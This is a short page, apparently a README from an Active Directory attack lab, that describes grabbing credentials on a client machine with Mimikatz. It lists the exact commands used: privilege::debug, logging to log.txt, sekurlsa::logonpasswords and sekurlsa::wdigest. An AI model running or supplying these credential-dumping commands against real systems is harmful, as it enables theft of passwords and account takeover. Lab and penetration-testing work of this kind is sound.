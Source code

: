 # Credential Grabbing in Active Directory

**NOTE: This is only to be used in an Active Directory environment on the Client machine. Please make sure you have selected the proper machine prior to running this attack.**

This attack uses Mimikatz to grab credentials via the command line. The Mimikatz commands are: "privilege::debug" "log log.txt" "sekurlsa::logonpasswords" "sekurlsa::wdigest".